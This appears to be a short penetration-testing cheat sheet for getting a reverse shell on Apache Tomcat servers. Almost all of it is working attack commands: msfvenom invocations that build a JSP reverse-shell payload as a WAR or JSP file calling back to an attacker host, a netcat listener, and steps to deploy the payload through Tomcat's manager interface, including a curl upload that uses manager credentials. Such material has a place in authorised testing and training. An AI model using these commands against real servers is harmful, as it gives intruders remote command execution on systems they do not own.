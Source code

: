 ### create war payload for reverse shell
```
msfvenom -p java/jsp_shell_reverse_tcp lhost=<lhost> lport=<lport> -f war > <file>.war
```

### start listener 
```
nc -lvp <lport>
<domain>/manager/html > Select WAR file to upload > Deploy
Applications > Path > <file>
```

### alternatively you can use a jsp file
```
msfvenom -p java/jsp_shell_reverse_tcp lhost=<lhost> lport=<lport> -f raw > <file2>.jsp
```

### convert jsp to war
```
jar -cvf <file>.war <file2>.jsp
```

### upload file using curl
```
curl -T <file>.war -u "<user>:<password>" http://<rhost>:<rport>/manager/text/deploy?path=<file>
```

